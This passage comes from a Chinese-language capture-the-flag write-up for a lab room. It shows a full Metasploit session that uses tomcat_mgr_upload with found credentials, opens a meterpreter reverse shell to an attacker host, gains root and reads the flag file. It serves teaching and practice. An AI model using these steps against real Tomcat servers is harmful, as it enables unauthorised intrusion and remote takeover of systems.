 我配置并运行了漏洞，然后…

```
**└─$ sudo msfconsole**[... snip ...]**msf6 > use exploit/multi/http/tomcat_mgr_upload**
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
**msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob**
HttpUsername => bob
**msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles**
HttpPassword => bubbles
**msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS toolsrus.thm**
RHOSTS => toolsrus.thm
**msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234**
RPORT => 1234
**msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST attacker.thm**
LHOST => attacker.thm
**msf6 exploit(multi/http/tomcat_mgr_upload) > exploit**[*] Started reverse TCP handler on attacker.thm:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying RAZHrqS5YFYauJLnwJaEDZOJv7Q3M9...
[*] Executing RAZHrqS5YFYauJLnwJaEDZOJv7Q3M9...
[*] Sending stage (58829 bytes) to toolsrus.thm
[*] Undeploying RAZHrqS5YFYauJLnwJaEDZOJv7Q3M9 ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (attacker.thm:4444 -> toolsrus.thm:42424 ) at [redacted] -0400**meterpreter >**
```

非常好。

# 后剥削

我进入一个 Linux 终端，用`id`命令获得当前用户:

```
**meterpreter > shell**Process 1 created.
Channel 1 created.
**$ id**
uid=0(root) gid=0(root) groups=0(root)
```

不需要权限提升，我可以直接转储根标志:

```
**$ cat /root/flag.txt**
[redacted]
```

阿洛拉。

# 摘要

尽管这是一个“容易”的房间，但仍然很容易犯愚蠢的错误，现实生活中的攻击性安全工程项目可能会将一个人置于那些明显“隐藏在众目睽睽之下”的情况下

## 外卖食品
